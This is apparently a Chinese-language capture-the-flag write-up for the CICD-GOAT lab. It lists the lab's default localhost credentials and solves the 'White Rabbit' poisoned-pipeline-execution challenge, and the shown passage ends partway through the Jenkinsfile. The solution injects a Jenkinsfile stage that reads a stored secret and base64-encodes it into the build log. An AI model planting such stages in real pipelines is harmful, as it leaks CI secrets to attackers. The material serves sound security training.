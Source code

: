 # CICD-GOAT

```
- Jenkins：http://localhost:8080
- Username: alice
- Password: alice
- Gitea：http://localhost:3000
- Username: thealice
- Password: thealice
GitLab http://localhost:4000
Username: alice
Password: alice1234
如果你想仔细查看管理员是如何配置的环境，可以使用如下凭据登录后台：
- CTFd
- Username: admin
- Password: ciderland5#
- Jenkins
- Username: admin
- Password: ciderland5#
- Gitea
- Username: red_queen
- Password: ciderland5#
gitlab
root
ciderland5#
```

建议可以先看看踩坑

## White Rabbit

考察的是PPE漏洞。访问项目对应的gitea仓库，发现存在Jenkinsfile文件，git clone下来注入恶意代码：

```json
pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
    }

    stages {
stage('getflag') {
            steps {
                withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
                        sh '''
                            echo "flag1:".$flag1|base64
                        '''
                }
            }
        }
        stage ('Install_Requirements') {
            steps {
                sh """
                    virtualenv venv
                    pip3 install -r requirements.txt || true
                """
            }
        }

        stage ('Lint') {
            steps {
                sh "pylint ${PROJECT} || true"
            }
        }
```